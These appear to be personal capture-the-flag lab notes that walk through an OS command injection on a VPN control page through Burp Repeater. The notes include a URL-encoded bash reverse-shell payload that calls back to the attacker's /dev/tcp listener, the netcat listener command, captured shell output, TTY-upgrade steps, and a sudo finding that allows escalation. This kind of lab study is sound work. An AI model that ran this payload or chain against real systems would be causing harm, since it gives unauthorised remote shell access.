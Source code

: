 ## Netcat listener
Create a listener on your Kali Machine.
```
nc -lvnp 1337
```


## Burp Suite OS Command Injection
- Visit http://10.200.X.12/vpncontrol.php. You can get the IP from the VPN connection request.
	- TCPv4_CLIENT link remote: [AF_INET]**10.200.118.12**:1194

- Click on the "Submit" button and send it to Proxy.
- Send the request to "Repeater".
- Add the following code to the request:
```
	+%26%26+bash+-i+>%26+/dev/tcp/<KALI MACHINE IP>/1337+0>%261
```
![[burp_vpn.png]]

- Send the request.
- You'll get a reverse shell on your netccat listener.
	listening on [any] 1337 ...
	connect to [10.50.115.9] from (UNKNOWN) [10.200.118.12] 56484
	bash: cannot set terminal process group (982): Inappropriate ioctl for device
	bash: no job control in this shell
	www-data@ip-10-200-118-12:/var/www/html$


### Shell syntax

^a674b9

```
&& bash -i >& /dev/tcp/<KALI MACHINE IP>/1337 0>&1
```

1. `&&`: This is the logical AND operator in shell scripting. It is used to execute the following command (`bash -i ...`) only if the preceding command (`hacker`) succeeds without errors.
    
2. `bash -i`: This is a command to launch a new instance of the Bash shell (`bash`) with the `-i` option, which stands for interactive mode. Interactive mode allows for interactive input and output, typically used when interacting with a terminal.
    
3. `>& /dev/tcp/10.50.115.9/1337`: This portion of the command redirects both standard output (stdout) and standard error (stderr) to a TCP connection established to the specified IP address (`10.50.115.9`) and port (`1337`). This syntax is often used for network communication in shell scripting.
    
4. `0>&1`: This part of the command redirects standard input (stdin) to the same location as standard output (stdout). This can be useful for ensuring that input from the keyboard is also sent over the network connection.
    

In summary, the command appears to be attempting to establish a network connection to the specified IP address and port while also launching an interactive Bash shell.

### Sanitize the shell
**Victim**

```
python -c 'import pty; pty.spawn("/bin/bash")'

ctrl + Z

stty raw -echo;fg
```

## sudoers

^459f9a

```
www-data@ip-10-200-113-12:/var/www/html$ sudo -l

```

User www-data may run the following commands on ip-10-200-113-12:  
(root) NOPASSWD: /home/ubuntu/openvpn-createuser.sh, **/bin/cp**

